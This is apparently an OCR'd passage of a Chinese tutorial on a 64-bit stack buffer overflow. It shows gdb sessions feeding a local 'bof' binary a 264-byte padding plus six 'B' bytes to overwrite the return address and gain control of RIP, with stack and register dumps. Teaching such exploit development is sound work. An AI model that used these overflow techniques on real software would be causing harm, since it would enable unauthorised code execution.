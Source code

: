 rsp指向的地址应该像0x0000424242424242一样正常了。那样就能控制RIP。

```
$ gdb -tui bof 
(gdb) set disassembly-flavor intel 
(gdb) layout asm 
(gdb) layout regs 
(gdb) break main 
(gdb) run $(python -c 'print "A" * 264 + "B" * 6') 

```

这次我们直接看调用leave指令后的状况。 这是leave指令执行后的栈

```
(gdb) x/20xg $rsp 
0x7fffffffddb8: 0x0000424242424242 0x0000000000000000 
0x7fffffffddc8: 0x00007fffffffde98 0x0000000200000000 
0x7fffffffddd8: 0x000000000040060d 0x0000000000000000 
0x7fffffffdde8: 0x2a283aca5f708a47 0x0000000000400520 
0x7fffffffddf8: 0x00007fffffffde90 0x0000000000000000 
0x7fffffffde08: 0x0000000000000000 0xd5d7c535e4f08a47 
0x7fffffffde18: 0xd5d7d58ce38a8a47 0x0000000000000000 
0x7fffffffde28: 0x0000000000000000 0x0000000000000000 
0x7fffffffde38: 0x0000000000400690 0x00007fffffffde98 
0x7fffffffde48: 0x0000000000000002 0x0000000000000000 

```

这是leave指令执行后寄存器的值

```
(gdb) i r 
rax     0x0     0 
rbx     0x0     0 
rcx     0xffffffffffffffff  -1 
rdx     0x7ffff7dd59e0 140737351866848 
rsi     0x7ffff7ff7000 140737354100736 
rdi     0x1     1 
rbp     0x4141414141414141 0x4141414141414141 
rsp     0x7fffffffddb8  0x7fffffffddb8 
r8      0x4141414141414141 4702111234474983745 
r9      0x4141414141414141 4702111234474983745 
r10     0x4141414141414141 4702111234474983745 
r11     0x246 r12 0x400520 4195616 
r13     0x7fffffffde90 140737488346768 
r14     0x0     0 
r15     0x0     0 
rip     0x400686 0x400686 <main+121>  
eflags  0x246 [ PF ZF IF ] 
cs      0x33    51 
ss      0x2b    43 
ds      0x0     0 
es      0x0     0 
fs      0x0     0 
gs      0x0     0 

```
